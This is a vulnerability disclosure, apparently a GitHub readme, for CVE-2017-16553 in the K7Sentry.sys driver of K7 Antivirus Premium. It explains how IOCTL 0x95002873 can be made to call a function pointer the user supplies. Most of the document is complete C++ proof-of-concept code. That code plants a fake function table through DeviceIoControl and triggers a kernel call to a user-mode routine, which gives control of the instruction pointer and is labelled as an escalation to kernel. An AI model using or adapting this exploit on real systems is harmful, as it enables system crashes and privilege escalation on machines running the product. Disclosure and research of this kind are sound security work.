 # CVE-2017-16553
# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771
  
# Related
The majority of this issue is still valid here so the write up isn't going to be duplicated.
[CVE-2017-16551](../CVE-2017-16551/readme.md)

# Details
## Vulnerability
The *K7Sentry.sys* exposes a significant amount of functionality through its DispatchHandler interface. Some of this calls through to common code which performs different actions depending on where it is called from. This appears to be to reduce code duplication. However, it is possible to confuse the routines and get consistent control of the instruction pointer.

This issue looks at the ControlCode 0x95002873 which is a wrapper around a call to *ZwQueryInformationFile*.

The main difference between this writeup and CVE-2017-16551 is the offset in unk9 is different:
```C++
unsigned int __usercall QueryInformationFileWrapper@<eax>(unk3 *pUnk3@<esi>)
{
    // ...
    pUnk9 = pUnk3->pUnk9;
    if ( !pUnk9 )
        return 0;
    v8 = (int (__cdecl *)(HANDLE))pUnk9->pfnQueryInformationFile_10;
    if ( !v8 )
        return 0;
    v9 = v8(pUnk3->hFile);
    // ...
}
```

The offset for this control code is 0x10 which is reflected in the UNK9 structure in the PoC code.


# PoC Code
This proof of concept code will cause a bugcheck identical to CVE-2017-16551.

```C++

#pragma pack(push)
#pragma pack(1)
// Aka Unknown2
typedef struct _UNK9
{
	DWORD offset_0;
	DWORD function_ReadFile;
	DWORD function_WriteFile;
	DWORD function_SetInformationFile;
	DWORD function_Query;
} UNK9, *PUNK9;

// Aka Unknown1
typedef struct _UNK3
{
	BYTE magic;
	BYTE ff;
	DWORD offset_2;
	PUNK9 pUnk9;
} UNK3, *PUNK3;

#pragma pack(pop)


VOID __cdecl KernelCallback(HANDLE hFile, DWORD dwUnknown)
{
	__asm
	{
		mov eax, 0xaaaaaaaa
		mov ebx, 0xbbbbbbbb
		mov ecx, 0xcccccccc
		mov edx, 0xdddddddd
		mov esi, 0xd00dd00d
		mov edi, 0xcafecafe
		mov DWORD_PTR[0xCAFED00D], 0xcafecafe
	}
}

VOID SetupMemory_0x9500286F(HANDLE hFile)
{
	BYTE outBuffer[0x8000] = { 0 };
	BYTE data[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;

	UNK9 stUnk9 = { 0 };
	// This must not be 0;
	stUnk9.offset_0 = 1;

	printf("Function: 0x%p\r\n", KernelCallback);

	stUnk9.function_ReadFile = (DWORD)KernelCallback;
	stUnk9.function_WriteFile = (DWORD)KernelCallback;
	stUnk9.function_SetInformationFile = (DWORD)KernelCallback;
	stUnk9.function_Query = (DWORD)KernelCallback;

	memcpy(data, &stUnk9, sizeof(UNK9));

	printf("Setting up global buffer\r\n");

	// This will fill the buffer at 0x4efe8 to be the data we pass into it
	if (!DeviceIoControl(hFile, 0x95002580, data, sizeof(data), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}

	//
	// Now we need to set up the state before it, this is pretty easy as we are just passing in a 
	// single DWORD. This is 0x4efe0
	//
	printf("Setting up K and FF\r\n");
	DWORD dwUnk3Magics = 0xFF4B0000;
	if (!DeviceIoControl(hFile, 0x950025D4, &dwUnk3Magics, sizeof(DWORD), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}
}

VOID TriggerFunctionCall(HANDLE hFile)
{
	// ************* CHANGE ME *************
	// This can be done dynamically if required.
	DWORD dwDriverBase = 0x86ecd000;
	// *************************************
	DWORD dwBufferPtrWeControl = 0x4f760+2 - 0x10000 + dwDriverBase;

	BYTE data[0x8000] = { 0 };
	BYTE outBuffer[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;
	(*(DWORD*)data) = dwBufferPtrWeControl;

	// QueryFile
	if (!DeviceIoControl(hFile, 0x95002873, data, 8, outBuffer, 4, &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global\r\n");
	}
}


VOID MedToKernel()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	SetupMemory_0x9500286F(hDevice);
	TriggerFunctionCall(hDevice);
}

```